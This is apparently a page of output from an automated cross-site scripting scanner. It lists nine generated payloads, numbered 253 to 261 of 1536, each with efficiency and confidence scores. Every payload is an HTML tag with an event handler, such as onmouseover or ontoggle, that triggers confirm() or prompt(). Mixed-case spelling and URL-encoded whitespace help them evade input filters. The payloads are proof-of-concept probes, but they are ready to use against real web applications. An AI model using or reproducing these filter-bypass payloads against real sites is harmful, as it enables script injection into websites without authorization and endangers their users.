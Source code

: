 ------------------------------------------------------------
 Payload: <A/+/ONMoUseoVeR+=+confirm()//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 253/1536
 
------------------------------------------------------------
 Payload: <A%09OnmoUseOver%0a=%0aconfirm()//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 254/1536
 
------------------------------------------------------------
 Payload: <DETAilS%0dOntOGgLE+=+(prompt)``%0dx// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 255/1536
 
------------------------------------------------------------
 Payload: <A%0aOnmouSEoVeR+=+[8].find(confirm)//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 256/1536
 
------------------------------------------------------------
 Payload: <A%0dOnmOuseovEr%0d=%0dconfirm()%0dx//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 257/1536
 
------------------------------------------------------------
 Payload: <a%0doNMouseOVEr%09=%09confirm()%0dx//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 258/1536
 
------------------------------------------------------------
 Payload: <htmL%0aonMoUseover%0d=%0da=prompt,a()// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 259/1536
 
------------------------------------------------------------
 Payload: <D3v/+/ONmouSeOVer%09=%09(confirm)()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 260/1536
 
------------------------------------------------------------
 Payload: <A%0aONMOuSEoVeR%09=%09a=prompt,a()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 261/1536
 